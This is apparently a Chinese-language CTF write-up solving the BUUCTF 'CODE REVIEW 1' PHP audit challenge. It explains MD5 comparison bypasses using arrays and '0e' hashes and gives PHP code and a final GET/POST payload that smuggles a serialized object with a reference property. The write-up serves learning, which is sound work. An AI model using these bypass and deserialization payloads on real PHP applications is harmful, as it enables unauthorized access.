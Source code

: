 # PHP代码审计----（一）

> 题目
> BUU CODE REVIEW 1

打开题目上面显示了PHP源码
![image](https://github.com/uicciu/image/blob/main/php%E5%AE%A1%E8%AE%A1.png)

能看懂这是在传参，应用了GET POST 两种方法 其中还涉及MD5绕过-----这是我能看懂的，上边那一坨是看不懂的

在url输入-----？pleaseget=1
![image](https://github.com/uicciu/image/blob/main/php%E5%AE%A1%E8%AE%A12.png)

很显然没有什么变化

再用hacker插件POST传参

这里我只传了我会的MD5绕过

* MD5绕过
有两种情况

1）MD5无法识别数组，可以传递一个数组，则MD5会返回一个NULL 空 这样两边为空，还是相等的

2）MD5中如果输入0exxx 则会认为是科学计数法 0*10（n） 也是恒为零

> 因为不会了 去看别人思路



【引用】

```
    GET提交：?pleaseget=1

    POST提交的第一部分：pleasepost=2&md51[]=1&md52[]=2

    POST提交的第二部分：一个BUU类的实例化对象，且两个属性值在经过$this->correct = base64_encode(uniqid());这个之后，依然全等，那么这里我们可以把变化的$correct属性的引用赋值   给属性$input

    //uniqid() 函数基于以微秒计的当前时间，生成一个唯一的 ID。

    //传值赋值：变量默认总是传值赋值。那也就是说，当将一个表达式的值赋予一个变量时，整个原始表达式的值被赋值到目标变量。这意味着，例如，当一个变量的值赋予另外一个变量时，改变其中一个变量的值，将不会影响到另外一个变量。

    //引用赋值：PHP 也提供了另外一种方式给变量赋值：引用赋值。这意味着新的变量简单的引用（换言之，“成为其别名” 或者 “指向”）了原始变量。改动新的变量将影响到原始变量，反之亦然。
```   



【编写代码】
```php
    <?php

    class BUU{

    public $correct = "";

    public $input = "";

    }

    $chen = new BUU();

    $chen->input=&$chen->correct;

    $chen = serialize($chen);

    echo $chen."<br />";

    //O:3:"BUU":2:{s:7:"correct";s:0:"";s:5:"input";R:2;}
```

![image](https://github.com/uicciu/image/blob/main/php%E5%AE%A1%E8%AE%A13.png)

【提交】

    GET部分：?pleaseget=1
    
    POST部分：pleasepost=2&md51[]=1&md52[]=2&obj=O:3:"BUU":2:{s:7:"correct";s:0:"";s:5:"input";R:2;}
    
       
![image](https://github.com/uicciu/image/blob/main/php%E5%AE%A1%E8%AE%A14.png)
